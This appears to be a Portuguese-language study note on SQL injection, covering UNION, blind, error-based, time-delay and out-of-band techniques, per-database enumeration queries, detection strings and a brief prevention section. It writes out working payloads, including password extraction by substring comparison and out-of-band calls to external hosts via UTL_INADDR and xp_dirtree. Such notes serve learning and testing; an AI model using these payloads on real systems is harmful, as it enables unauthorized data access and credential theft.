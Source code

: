# SQLi

## passo-a-passo

- 1) descobrir sqli (concatenando, somando, ...)
- 2) descobrir qual o db sendo executado (mysql, oracle)
- 3) dumpar a base/executar comandos no SO

## ataques UNION
- union serve para juntar informações de 2 querys
- pode ser usado no SELECT 
- as querys devem retornar o mesmo número de colunas e elas devem ser compatíveis
- para descobrir o número de colunas pode-se usar brute-force
    * injetar ORDER BY e incrementar o index da coluna
    * fazer UNION com SELECT NULL e aumentar a quantidade de NULLs
- para descobrir o tipo de uma coluna:
    * ir tentando unir cada coluna com string: UNION SELECT 'a', NULL--
- pode-se usar || para concatenar colunas
    * ' UNION SELECT user || ' ' || password from USERS--


## especificações

- dependendo no db pode-se criar arquivos ou executar comandos direto na shell do SO (mssql - xp_cmdshell, mysql - into outfile)

### nomes de tabelas e colunas
- em nao oracle: 
    - SELECT table_name FROM information_schema.tables 
    - SELECT column_name FROM information_schema.columns 
- em oracle:
    - SELECT table_name FROM all_tables
    - SELECT column_name FROM all_tab_columns 

### oracle

- db SELECT precisa de FROM então usar: SELECT NULL FROM DUAL 
- versão do banco: SELECT * FROM v$version 

### mysql
comentários com -- devem ser seguidos de espaço ou pode ser usado #

## blind sql
- não retorna o resultado da query na response
- tentar causar erro na query sql para ver se a response tem alguma variação de comportamento
* pode-se tentar uma query de sleep para verificar a ocorrência
* ou também uma interação out-of-band

### responses condicionais
- response muda comportamento com o injection, permitindo validar condições (e assim obter informações por tentativa)
- 123' AND 1=0
- 123' AND 1=0 UNION select 'a' FROM users WHERE username = 'admin' and SUBSTRING(password, 3, 1) > 'm'-- 

### induzindo responses condicionais com errors SQL 
- induzir erros não tratados na aplicação para alterar comportamento da response e assim conseguir validar condições
- sql faz pre-verificação de tipos antes de executar, logo case deve respeitar tipo:
- 123' UNION SELECT CASE WHEN (1=1) THEN (cast(1/0 as char(2))) ELSE NULL END-- 

### induzindo responses condicionais com time delays
- caso a aplicação trate muito bem qualquer erro interno gerado, sem mudanças de comportamento, outra forma de detectar um sqli é com uma condição de sleep 
- comandos de delay específicos para cada db
- 123' union select case when (1=1) then (cast((SELECT pg_sleep(10)) as char(2))) else null end --

### usando tecnicas out-of-band (oast)
- caso a response da aplicação não dependa da query sql (ela é feita asincronamente) é necessário uma solução que envolva outro canal de comunicação (geralmente é usado o dns por ser mais liberado em qualquer ambiente)
- específico para cada db
- SELECT UTL_INADDR.get_host_address('burpcollaborator.net') from dual


## detectando

- submeter: 
* ' 
* ' OR 1=1--
* '; waitfor delay('0:0:20')--
* out-of-band: exec master..xp_dirtree '//duck.com/a'

## second-order 

- stored sqli
- payload é armazenado internamente para ser execução posteriormente

## prevenindo

- não colocar input diretamente na query

- tratar (parametrizar) entrada do usuário antes (lib)


